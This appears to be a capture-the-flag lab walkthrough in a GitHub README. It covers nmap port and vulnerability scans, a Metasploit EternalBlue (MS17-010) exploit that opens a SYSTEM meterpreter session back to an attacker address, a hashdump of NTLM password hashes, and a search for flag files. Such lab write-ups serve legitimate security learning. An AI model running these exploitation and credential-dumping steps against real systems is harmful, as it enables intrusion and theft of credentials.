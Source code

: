 <hr style="border-color:red;"><h1 align="center"><img src="https://github.com/user-attachments/assets/db0ff09d-a6b7-4b03-8f93-1c1827dc7867"></h1>

<hr style="border-color:red;"><h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1><hr style="border-color:red;">

### **- Verifying the connectivity of the discovered device:**

```bash
ping -c 1 10.10.12.63
```
```bash
ping
The ping command is used to check network connectivity between your machine and another device by sending ICMP (Internet Control Message Protocol) echo request packets.
-c 1
The -c flag specifies the number of echo request packets to send. In this case, -c 1 means only one packet will be sent.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7b3d2ea0-61a7-4511-8088-dea75395c71a"></picture><br>TTL = 127 ==> WINDOWS</h3><hr style="border-color:red;">

### **- Scanning of the discovered device to find all open ports to find possible access routes:**

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.12.63 -oG allPorts
```
```
-p-
This tells Nmap to scan all 65535 TCP ports (from 0 to 65535). By default, Nmap only scans the most common 1,000 ports.

--open
This filters the results to only show open ports, ignoring closed or filtered ports.

-sS
This specifies a SYN scan (also called a half-open scan or stealth scan).
Instead of fully establishing a TCP connection, Nmap sends an SYN packet and waits for a response.
If the target responds with SYN-ACK, it means the port is open.
If the target responds with RST, the port is closed.
If no response or an ICMP error is received, the port may be filtered (firewall blocking it).

--min-rate 5000
This forces Nmap to send at least 5000 packets per second, making the scan faster.
Without this, Nmap adjusts the speed automatically based on network conditions.

-vvv
This increases verbosity level (very very verbose).
It provides real-time feedback while scanning.
You will see results as they are discovered instead of waiting for the full scan to complete.

-n
This disables DNS resolution, making the scan faster.
By default, Nmap tries to resolve IPs to hostnames, which can slow down the scan.

-Pn
This tells Nmap to skip the host discovery phase and assume the target is up.
Normally, Nmap pings the target first to check if it is online.
If a firewall is blocking pings, this option is useful to force a scan even if the target doesn’t respond to pings.

-oG allPorts
This tells Nmap to output the results in "Grepable" format and save them in a file called allPorts.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/14e953a0-650c-4e09-9532-d084c7761ce7"></picture><br>Accessible ports 135,139,445,3389,49452,49152,49154,49158,49160</h3><hr style="border-color:red;">

### **- Analysis of the open ports found on the discovered device to get more information on the services running on those ports:**

```bash
nmap -sCV -p135,139,445,3389,49452,49152,49154,49158,49160 10.10.12.63 -oN targeted
```
```
-sC
Enables Nmap’s default script scanning.
This runs a set of default scripts to gather more information about detected services.
Scripts can detect vulnerabilities, enumerate software versions, and check for misconfigurations.
Equivalent to --script=default.

-sV
Performs version detection of services.
It tries to determine the exact software version running on open ports.

-p
This makes the scan faster and more targeted instead of scanning all ports.

-oN targeted
Saves the output in normal format to a file named targeted.
You can later review this file for findings.
```
<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/67ace266-1259-4839-b491-fac72e358c27"></picture><br>445/tcp   open   microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) "could be vulnerable to EternalBlue"</h3><hr style="border-color:red;">

### **- Looking for vulnerabilities with nmap:**
```bash
nmap --script "vuln and safe" -p445 10.10.12.63
```
```
--script "vuln and safe" → Runs Nmap scripts that belong to both the vuln (vulnerability detection) and safe (non-destructive) categories.

-p445 → Specifies scanning only port 445 (SMB/Windows file sharing).
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e1883661-9019-48d0-a24f-718440cc2987"></picture><br>We found ms17-010 Vulnerability</h3><hr style="border-color:red;">

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1><hr style="border-color:red;">

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

### **Scanning ms17-010 whit METASPLOIT for possible vulnerabilities**
```bash
msfdb init && msfconsole
```
```
msfdb init (Initialize Metasploit Database)
msfconsole (Launch Metasploit Console)
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/d30ca4a3-673b-4644-8057-70dce9a04494"></picture><br>In here we will look for a vulnerability for ms17-010</h3>

```bash
search ms17-010
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7d22d9ff-cf8f-49ec-a4b4-bdd612605964"></picture><br>As we thought it was an eternalblue.</h3>


### **- We will configure our sploit to gain access to the victim machine:**

```bash
use 0
show options
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/eb010bfc-605e-4753-9bdc-a5a44c50d0ae"></picture><br>The sploit is asking us to enter information about the victim and attacker ip since the ports are automatically assigned.</h3>

### **- We assign the information you require:**
```bash
set RHOSTS 10.10.12.63
set LHOST 10.21.118.81
run
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/a0d1071b-0d56-46bc-87eb-4b67fea89c95"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/1573f02f-7934-4fb1-b381-a901d02f1926"></picture><br>we already have a session by meterpreter like user System.</h3>

### **- e search for all hashes in the system**
```bash
hashdump
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/82b66b35-dfed-4191-98f1-55ea6c1968b6"></picture><br>Using the web https://crackstation.net/ we will break these hashes</h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/739058b1-6131-4368-81e1-c3f7d3760145"></picture><br></h3>

### **- looking for the flags:**
```bash
search -f flag*.txt
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/9d38f110-d603-4b26-947d-5af09520ff2f"></picture><br></h3>
